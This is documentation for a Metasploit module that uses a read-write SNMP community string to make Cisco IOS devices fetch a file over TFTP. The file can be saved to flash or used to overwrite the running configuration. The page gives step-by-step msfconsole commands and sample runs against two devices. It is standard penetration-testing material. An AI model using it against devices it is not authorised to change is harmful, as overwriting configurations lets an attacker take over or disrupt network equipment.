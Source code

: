 ## Vulnerable Application

  Cisco IOS devices can be configured to retrieve, via tftp,  a file via SNMP.
  This is a well [documented](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
  feature of IOS and many other networking devices, and is part of an administrator functionality.
  This functionality can also be used to change their running configuration. This is documented [here](https://www.ciscozine.com/send-cisco-commands-via-snmp/). 
  A read-write community string is required, as well as a tftp server (metasploit includes one).
  The default functionality of the module will upload the file and it will be saved to `flash:`.
  The `Override_Config` action will override the running configuration of the device and the file will not be saved.

## Verification Steps

Upload_File (Default Action)

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_upload_file```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set lhost [your IP address]```
  6. Do: ```set rhosts [ip]```
  7. Do: ```set source [file]```
  8. Do: ```run```
  
Override_Config

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_upload_file```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set lhost [your IP address]```
  6. Do: ```set rhosts [ip]```
  7. Do: ```set source [file]```
  8. Do: ```set action [Override_Config]```
  9. Do: ```run```
  10. You can **Verify** that the running config has been overridden by using the **auxiliary/scanner/snmp/cisco_config_tftp** module to download the current running config from the device.

## Options

### COMMUNITY

  The SNMP community string to use which must be read-write.  Default is `public`.

### SOURCE

  The location of the source file to be uploaded to the Cisco device.

## Scenarios

### Cisco UC520-8U-4FXO-K9 running IOS 12.4

```
msf > setg rhosts 2.2.2.2
rhosts => 2.2.2.2
msf > use auxiliary/scanner/snmp/cisco_upload_file
msf auxiliary(scanner/snmp/cisco_upload_file) > set source /tmp/backup_config2
source => /tmp/backup_config2
msf auxiliary(scanner/snmp/cisco_upload_file) > set community private
community => private
msf auxiliary(scanner/snmp/cisco_upload_file) > run

[*] Starting TFTP server...
[*] Copying file backup_config2 to 2.2.2.2...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Providing some time for transfers to complete...
[*] Shutting down the TFTP service...
[*] Auxiliary module execution completed
```
### Cisco 3560G switch running IOS 12.2

```

`msf auxiliary(scanner/snmp/cisco_upload_file) > set COMMUNITY private`
`COMMUNITY => private`
`msf auxiliary(scanner/snmp/cisco_upload_file) > set LHOST 10.20.164.164`
`LHOST => 10.20.164.164`
`msf auxiliary(scanner/snmp/cisco_upload_file) > set action Override_Config`
`action => Override_Config`
`msf auxiliary(scanner/snmp/cisco_upload_file) > set rhosts 10.20.205.5`
`rhosts => 10.20.205.5`
`msf auxiliary(scanner/snmp/cisco_upload_file) > set source /root/Desktop/newconfig`
`source => /root/Desktop/newconfig`
`msf auxiliary(scanner/snmp/cisco_upload_file) > run`

`[*] Starting TFTP server...`
`[*] Copying file newconfig to 10.20.205.5...`
`[*] Scanned 1 of 1 hosts (100% complete)`
`[*] Providing some time for transfers to complete...`
`[*] Shutting down the TFTP service...`
`[*] Auxiliary module execution completed`

```
